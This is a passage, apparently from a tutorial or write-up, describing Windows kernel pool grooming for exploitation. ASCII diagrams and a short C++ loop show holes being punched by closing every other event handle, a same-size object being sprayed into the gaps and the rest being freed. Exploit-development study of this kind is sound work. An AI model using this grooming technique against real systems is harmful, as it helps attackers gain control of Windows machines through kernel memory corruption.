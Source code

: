 ```cpp
			}
			return -1;
		}
	}
...
```

```
Step 4: Now we have holes in the pool, so our next allocations will likely fall into those gaps
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] |
| [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] |
| [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] |
| [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] |
| [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] |
| [Free] [Ctrl] [Free] [Ctrl] [Free] [Ctrl] [Free] |
+--------------------------------------------------+
```

Step 4 code could be:
```cpp
...
	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 == 0) {
			CloseHandle(Events[i]);
			CtrlEvents[i] == NULL;
		}
	}
...
```


```
Step 5: Spray of a new object that we are gonna use for the exploitation (the object MUST have the same size that the allocatted objects)
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] |
| [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] |
| [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] |
| [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] |
| [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] |
| [UFal] [Ctrl] [UFal] [Ctrl] [UFal] [Ctrl] [UFal] |
+--------------------------------------------------+

Step 6: Release the remaining objects
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] |
| [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] |
| [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] |
| [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] |
| [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] |
| [UFal] [FREE] [UFal] [FREE] [UFal] [FREE] [UFal] |
+--------------------------------------------------+

```
